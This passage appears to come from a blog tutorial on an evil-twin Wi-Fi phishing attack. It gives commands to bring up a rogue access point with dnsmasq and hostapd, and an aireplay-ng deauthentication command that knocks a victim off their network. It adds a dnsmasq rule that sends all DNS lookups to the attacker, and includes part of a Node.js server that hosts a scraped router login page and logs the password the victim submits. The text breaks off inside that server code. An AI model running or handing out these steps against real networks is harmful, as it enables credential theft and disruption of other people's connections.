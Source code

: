```sh
dnsmasq -C dnsmasq.conf -d # run dnsmasq with config file in daemon mode
```

```sh
hostapd hostapd.conf # run hostapd
```

That's it! The Wi-Fi should be up an running!

## 3. Deauthenticating the client

Deauthenticating the client is fairly straightforward using `aireplay-ng`. We have to input the AP's MAC address (`-a`), as well as the client's MAC address (`-c`). Remember that deauthentication happens through the interface `wlan0mon`

```sh
aireplay-ng -0 0 -a xx:xx:xx:xx:xx:xx -c xx:xx:xx:xx:xx:xx --ignore-negative-one wlan0mon
```

## 4. Waiting for a connection

Nothing we can do here except for wait and pray that the victim falls for the bait. We can watch the `dnsmasq` log to see when a connection establishes.

{{< img src="images/dhcp.png" title="DHCP log after client connected successfully." >}}

We can now also see all DNS queries.

{{< img src="images/dns-queries.png" title="DNS queries." >}}

## 5. The Man in the Middle

The user is connected to our Wi-Fi. Let's try to lure him/her into typing their password into our fake router website. For this, we configure `dnsmasq` to return the IP address of our local server for every request. We add the following line to `dnsmasq.conf`:

```text
address=/#/192.168.1.1
```

This essentially resolves all DNS requests to `192.168.1.1` (which is problematic for HSTS enabled websites, but for our purposes we'll simply ignore that). Next, we need to launch a server listening on `192.168.1.1:80`. We'll use a simple `nodejs` powered [express](https://expressjs.com/ "Expressjs website") server to host a scraped version of my router's login page. We'll use browser-builtin websockets to send the password.

```js
const WebSocket = require("ws");
const path = require("path");
const express = require("express");
const fs = require("fs");
const host = "192.168.1.73";
const expressPort = 80;
const wsPort = 8080;
const app = express();
const logger = fs.createWriteStream("log.txt", {
  flags: "a",
});

// Websocket
const ws = new WebSocket.Server({
  port: wsPort,
  host: host,
});

ws.on("connection", function connection(ws) {
  ws.on("message", function incoming(message) {
    console.log("received: %s", message);
```